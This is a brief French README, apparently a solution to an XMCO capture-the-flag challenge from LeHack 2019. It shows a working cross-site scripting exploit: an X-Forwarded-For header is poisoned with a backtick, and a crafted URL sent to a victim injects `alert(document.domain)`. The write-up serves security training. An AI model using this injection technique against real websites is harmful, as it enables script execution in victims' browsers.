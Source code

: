 # LH-Challenge

Challenge du stand XMCO à LeHack 2019

## Exploit:

On poison le X-Forwarded-For avec la valeur:

```http
X-Forwarded-For: as=`
```

et on envoie l'URL à notre victime:

```http
http://challenge:4444/?token=`;alert(document.domain)//
```
